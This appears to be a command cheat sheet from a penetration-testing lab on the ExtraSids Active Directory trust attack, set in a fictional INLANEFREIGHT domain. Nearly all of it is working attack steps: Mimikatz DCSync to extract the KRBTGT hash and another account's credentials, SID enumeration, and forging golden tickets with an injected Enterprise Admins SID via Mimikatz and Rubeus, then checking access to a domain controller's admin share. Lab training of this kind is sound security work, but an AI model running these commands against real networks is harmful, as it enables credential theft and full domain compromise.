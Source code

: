 ## ExtraSids Attack - Mimikatz
#### Obtaining the KRBTGT Account's NT Hash using Mimikatz

```powershell-session
PS C:\htb>  mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```
#### Using Get-DomainSID

```powershell-session
PS C:\htb> Get-DomainSID
```
#### Obtaining Enterprise Admins Group's SID using Get-DomainGroup

```powershell-session
PS C:\htb> Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
#### Using ls to Confirm No Access

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```
#### Creating a Golden Ticket with Mimikatz

```powershell-session
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
#### Confirming a Kerberos Ticket is in Memory Using klist
```powershell-session
PS C:\htb> klist
```
#### Listing the Entire C: Drive of the Domain Controller

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```

## ExtraSids Attack - Rubeus
#### Using ls to Confirm No Access Before Running Rubeus

```powershell-session
PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$
```
#### Creating a Golden Ticket using Rubeus

```powershell-session
PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
#### Confirming the Ticket is in Memory Using klist
```powershell-session
PS C:\htb> klist
```
#### Performing a DCSync Attack
```powershell-session
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm

OR

lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```



